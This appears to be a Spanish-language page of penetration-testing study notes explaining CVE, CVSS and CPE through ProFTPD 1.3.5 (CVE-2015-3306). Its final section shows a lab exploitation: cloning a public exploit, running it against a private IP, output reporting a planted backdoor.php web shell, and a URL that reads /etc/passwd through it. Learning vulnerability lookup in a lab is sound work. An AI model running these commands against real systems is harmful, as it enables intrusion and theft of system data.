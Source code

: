 ```yaml
---
icon: memo-pad
---
```


# CVE, CVSS, CPE - Common Vulnerabilities and Exposures

Hay una pagina bastante famosa la cual recopila todas las vulnerabilidades que vayan exsistiendo y les asigna un numero, por lo que este numero sera el identificativo a dicha vulnerabilidad, todo esto se lo proporciona la empresa `mitre` cada vulnerabilidad que vaya saliendo se va implementando en esta base de datos:

URL = [Pagina CVE BB.DD.](https://cve.mitre.org)

Si nosotros buscamos una vulnerabilidad que sospechamos que puede ser vulnerable, podremos buscarlo en el boton de `Search CVE`, por ejemplo si buscamos una version de `FTP` que encontramos en nuestras maquinas de prueba en mi caso la de `Linux - Ubuntu` vimos que era un `ProFTPD 1.3.5`, por lo que si buscamos eso veremos que esta asignado a un `CVE-2015-3306` por lo que tiene una vulnerabilidad que se indica con ese numero y si te metes en dicha vulnerabilidad podremos ver la descripcion de en que consiste esa vulnerabilidad.

Despues te muestra las referencias donde puede encontrar mas informacion sobre esa vulnerabilidad y como se podria aprovechar para poder ser explotada.

Con este identificador que obtenemos, lo que podemos hacer es buscarlo en `google` con el identificador e investigar herramientas que esten creadas en `GitHub` con el lenguaje de programacion que queramos buscar para poder explotar estas vulnerabilidades.

Por ejemplo de esta vulnerabilidad si se busca un poco, podremos encontrar el siguiente repositorio que esta mas actual y asi nos olvidamos de algun posible fallo a la hora de explotarlo con uno mas desactualizado.

URL = [Pagina Exploit CVE-2015-3306](https://github.com/t0kx/exploit-CVE-2015-3306/tree/master)

Si por ejemplo nosotros queremos identificar que nivel de peligrosidad tiene esta vulnerabilidad, podremos hacerlo consultando la siguiente pagina:

URL = [Pagina CVSS Nivel de peligro de un CVE](https://nvd.nist.gov/vuln/search)

Si buscamos la vulnerabilidad que encontramos anteriormente, podremos ver que nos la encuentra y nos indica que es bastante alta de peligro teniendo un `10` sobre `10`:

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

Ya que con esta vulnerabilidad puede leer o copiar cualquier fichero del sistema, por lo que es bastante alta.

Cada una de las versiones de software tiene un `CPE` asociado, por lo que cuando sale una vulnerabilidad rapidamente podamos asociarlas con todas las versiones de ese software que se ven afectadas por esta vulnerabilidad, en esta pagina mas abajo se ven los `CPE` que van asociados a esta vulnerabilidad por los que se le puede identificar.

<figure><img src="../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

Hay otra pagina que te engloba todo esto, por la que se puede buscar por el nombre del servicio y version, esta pagina te muestra los resultados con su `CVE` asociado y a parte tambien te muestra el riesgo de dicha vulnerabilidad, te muestra tambien el `PCE` mostrandotelo todo por lo que es mas sencillo de ver:

URL = [Pagina CVE Details](https://www.cvedetails.com)

Y con la vulnerabilidad que hemos encontrado podriamos aprovecharla en la fase de explotacion, que seria algo asi:

```shell
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git
cd exploit-CVE-2015-3306/
```

```shell
./exploit.py --host 192.168.16.129 --port 21 --path /var/www/html
```

Info:

```
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 192.168.16.129:21
[+] Target exploited, acessing shell at http://192.168.16.129/backdoor.php
[+] Running whoami: www-data
[+] Done
```

Y si nos vamos al navegador y ponemos lo siguiente:

```
URL = http://192.168.16.129/backdoor.php?cmd=cat /etc/passwd
```

Podremos ver que nos vuelca toda la informacion del archivo `passwd` y mucho mas que podremos hacer, pero esto es para la fase de explotacion.
